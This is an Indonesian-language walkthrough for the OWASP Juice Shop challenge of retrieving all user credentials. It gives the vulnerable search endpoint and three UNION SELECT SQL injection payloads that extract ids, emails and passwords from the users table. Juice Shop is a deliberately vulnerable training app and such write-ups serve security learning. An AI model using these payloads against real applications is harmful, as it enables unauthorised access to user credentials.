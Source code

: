 # User Credentials OWASP Juice Shop

Link resource: https://demo.owasp-juice.shop/#/score-board?categories=Injection&showDisabledChallenges=false

Retrieve a list of all user credentials via SQL Injection.

## Solusi

Vulnerable source code:

<img src="../kelas/img/81.png" />

Untuk mengambil semua kredensial user, kita pakai endpoint yang digunakan di atas, yaitu /rest/products/search?q=, tempat dipakainya `UNION SELECT` menggunakan tabel pengguna

```sql
')) UNION SELECT 1,2,3,4,5,6,7,8,9 FROM users--
```

Di sini kita periksa nama kolom dan mencoba seperti id, email, kata sandi dalam parameter.

<img src="../kelas/img/82.png" />

```sql
')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--
```

Tapi query tersebut tetap memberikan data lain, jadi kemungkinan besar ada kondisi atau filter yang belum sesuai dengan yang kita maksud.

```sql
p')) UNION SELECT id,email,password,4,5,6,7,8,9 FROM users--
```

<img src="./img/83.png" />
<img src="./img/84.png" />
